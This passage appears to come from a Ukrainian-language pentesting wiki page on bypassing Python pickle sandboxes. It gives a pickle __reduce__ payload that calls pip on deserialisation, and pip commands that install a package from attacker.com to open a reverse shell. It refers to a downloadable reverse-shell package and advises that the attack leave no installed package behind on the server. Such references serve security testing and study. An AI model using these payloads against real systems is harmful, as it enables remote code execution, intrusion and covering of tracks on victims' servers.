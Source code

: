 ## Bypass pickle sandbox з використанням стандартно встановлених python packages

### Стандартні пакети

Ви можете знайти **список попередньо встановлених** пакетів тут: [https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html](https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html)\
Зверніть увагу, що з pickle ви можете змусити python env **import arbitrary libraries** встановлені в системі.\
Наприклад, наступний pickle при завантаженні імпортує бібліотеку pip для її використання:
```python
#Note that here we are importing the pip library so the pickle is created correctly
#however, the victim doesn't even need to have the library installed to execute it
#the library is going to be loaded automatically

import pickle, os, base64, pip
class P(object):
def __reduce__(self):
return (pip.main,(["list"],))

print(base64.b64encode(pickle.dumps(P(), protocol=0)))
```
Для отримання додаткової інформації про те, як працює pickle, перегляньте: [https://checkoway.net/musings/pickle/](https://checkoway.net/musings/pickle/)

### Pip package

Трюк від **@isHaacK**

Якщо у вас є доступ до `pip` або `pip.main()` ви можете встановити довільний пакет і отримати reverse shell, викликавши:
```bash
pip install http://attacker.com/Rerverse.tar.gz
pip.main(["install", "http://attacker.com/Rerverse.tar.gz"])
```
Ви можете завантажити пакет для створення reverse shell тут. Зверніть увагу, що перед використанням потрібно **розпакувати його, змінити `setup.py` і вказати ваш IP для reverse shell**:

{{#file}}
Reverse.tar (1).gz
{{#endfile}}

> [!TIP]
> Цей пакет називається `Reverse`. Однак він спеціально створений так, що коли ви вийдете з reverse shell, решта інсталяції завершиться помилкою, тож ви **не залишите жодного додаткового python package, встановленого на сервері**, коли підете.

## Eval-ing python code

> [!WARNING]
> Зауважте, що exec дозволяє багаторядкові рядки та ";", але eval — ні (перевірте walrus operator)
